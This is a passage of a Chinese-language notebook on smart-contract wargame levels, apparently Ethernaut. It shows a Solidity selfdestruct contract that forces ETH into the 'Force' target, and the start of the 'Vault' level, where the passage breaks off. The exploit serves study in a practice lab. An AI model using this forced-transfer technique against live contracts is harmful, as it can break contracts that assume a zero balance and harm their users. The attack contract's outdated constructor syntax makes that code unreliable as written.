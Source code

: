 

## Force

* ```
  // SPDX-License-Identifier: MIT
  pragma solidity ^0.8.0;
  
  contract Force {/*
  
                     MEOW ?
           /\_/\   /
      ____/ o o \
    /~____  =ø= /
   (______)__m_m)
  
  */}
  ```

* 要求让该合约的余额不为零：this.balance！=0

* 利用selfdestruct自毁函数：

  ![image-20230224125023296](C:\Users\一只老风铃\Documents\Tencent Files\1759306440\FileRecv\chain sec labs\靶场笔记.assets\image-20230224125023296.png)

* 强制转账：如果要能往合约发送 eth 需要其 fallback函数为 payable,可以使用另一个合约使用selfdestruct强行给一个合约发送eth

  ```
  contract Selfdestruct {
      function Selfdestruct() public payable{}
      // 构造函数为payable，那么就能在部署的时候给此合约转账。
    function attack() public {
   selfdestruct(0x00df9e19b596e9d8ab0fa7c6edfcc5f9f0654eb88e);
   // 这里要指定为销毁时将基金发送给的地址。
    }
  }
  ```



## Vault

* 合约代码：

  ```
  pragma solidity ^0.6.0;
  
  contract Vault {
    bool public locked;
    bytes32 private password;
  
    constructor(bytes32 _password) public {
      locked = true;
      password = _password;
    }
  